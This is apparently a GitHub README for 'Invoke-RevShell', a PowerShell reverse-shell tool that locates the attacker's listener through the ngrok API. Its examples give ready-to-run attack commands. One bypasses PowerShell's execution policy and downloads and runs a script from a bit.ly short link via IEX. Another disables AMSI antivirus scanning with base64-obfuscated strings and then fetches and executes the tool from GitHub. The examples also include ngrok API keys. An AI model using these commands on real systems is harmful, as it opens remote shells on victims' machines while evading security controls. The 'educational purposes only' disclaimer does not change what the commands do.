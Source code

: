 ## Video:
[![2022-05-12-20:38:15.png]([https://raw.githubusercontent.com/halitAKAYDIN/LfiScan/main/2022-05-12-20%3A38%3A15.png](https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/2022-06-01-18%3A57%3A38.png))](https://youtu.be/ "Test")

## Description
```
Auto detect remote server using ngrok api
```

## Requirements:
```
Ngrok
Netcat
```

## Example (Module):
```powershell
C:\PS> Import-Module .\Invoke-RevShell
C:\PS> Invoke-RevShell -api 29yl5EiFZzgT0Atb31Gi15TERuT_6SRPezQnv1kT2WLo5b1Mr
```

## Example (Default):

```powershell
C:\PS> powershell -ep Bypass -c "[Net.ServicePointManager]::SecurityProtocol=Net.SecurityProtocolType]::Tls12;
                                  IEX(New-Object Net.WebClient).downloadString('https://bit.ly/3N8EZjb'); 
                                  Invoke-RevShell -api 29yl5EiFZzgT0Atb31Gi15TERuT_6SRPezQnv1kT2WLo5b1Mr;"
```

## Example (Amsi Bypass):

```powershell
C:\PS> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true);
C:\PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;
C:\PS> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
C:\PS> Invoke-RevShell -api 29yq9XSYB6rbCwWUVZJENMjGFmG_tVLYBw5qyLRfqMVxDe5M;
```



## Disclaimer:

```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
